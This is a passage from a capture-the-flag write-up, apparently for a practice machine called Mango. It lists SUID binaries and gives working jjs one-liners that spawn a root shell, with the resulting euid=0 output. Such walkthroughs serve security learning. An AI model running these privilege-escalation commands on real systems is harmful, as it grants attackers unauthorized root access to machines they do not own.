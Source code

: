     -rwsr-xr-- 1 root systemd-resolve 42992 Jan 12  2017 /snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 428240 Nov  5  2018 /snap/core/6350/usr/lib/openssh/ssh-keysign
    -rwsr-sr-x 1 root root 98472 Jan 29  2019 /snap/core/6350/usr/lib/snapd/snap-confine
    -rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/6350/usr/sbin/pppd
    -rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 40344 Jan 25  2018 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 75824 Jan 25  2018 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 59640 Jan 25  2018 /usr/bin/passwd
    -rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newgidmap
    -rwsr-sr-x 1 root root 18161 Jul 15  2016 /usr/bin/run-mailcap
    -rwsr-xr-x 1 root root 76496 Jan 25  2018 /usr/bin/chfn
    -rwsr-xr-x 1 root root 44528 Jan 25  2018 /usr/bin/chsh
    -rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
    -rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
    -rwsr-xr-x 1 root root 18448 Mar  9  2017 /usr/bin/traceroute6.iputils
    -rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
    -rwsr-xr-- 1 root messagebus 42992 Jun 10 18:05 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
    -rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-sr-x 1 root root 101240 Mar 15  2019 /usr/lib/snapd/snap-confine

We search for the binaries on GTFObins and [jjs](https://gtfobins.github.io/gtfobins/jjs/#suid)
get our attention. We can directly use the gtfobins command but the process just hang.

    :::text
    admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-/bin/jjs
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc $@|sh${IFS}-p _ echo sh -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
    # 

We modify the command to use `/bin/bash` instead of `sh` and it work (the user input are
not prompted when typing but when you hit enter it gives the command result).
The first command is `id` the second is `cat /root/root.txt`.

    :::text
    admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo /bin/bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc $@|sh${IFS}-p _ echo /bin/bash -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
    bash-4.4# uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
    bash-4.4# 8a8ef<redacted>

# Wrapping up

The NoSQL injection was quit fun. Doing it manually with Burp was really
interesting.

The `jjs` privilege escalation was not really hard.

